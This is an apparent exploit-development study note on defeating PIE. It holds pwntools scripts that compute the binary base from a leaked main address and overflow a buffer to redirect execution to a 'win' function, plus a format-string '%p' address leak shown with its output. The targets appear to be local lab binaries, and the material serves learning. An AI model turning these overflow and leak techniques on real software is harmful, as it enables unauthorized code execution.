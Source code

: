### PIE

---

PIE - Position Independent Executable, every time memory addrress changes, need to find offset from base address.

```py
#32 Bit
from pwn import *
elf=context.binary=ELF('./vuln-32')
p=process()

p.recvuntil('at: ')
main=int(p.recvline(),16)
elf.address=main-elf.sym['main']

payload=b'A'*32
payload+=p32(elf.sym['win'])
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

```py
#64 Bit
from pwn import *
elf=context.binary=ELF('./vuln-64')
p=process()

p.recvuntil('at: ')
main=int(p.recvline(),16)
elf.address=main-elf.sym['main']

payload=b'A'*40
payload+=p64(elf.sym['win'])
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

#### leak address with format string

---

```py
$ ./vuln-32 
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7eee080 (nil) 0x565d31d5 0xf7eb13fc 0x1
```


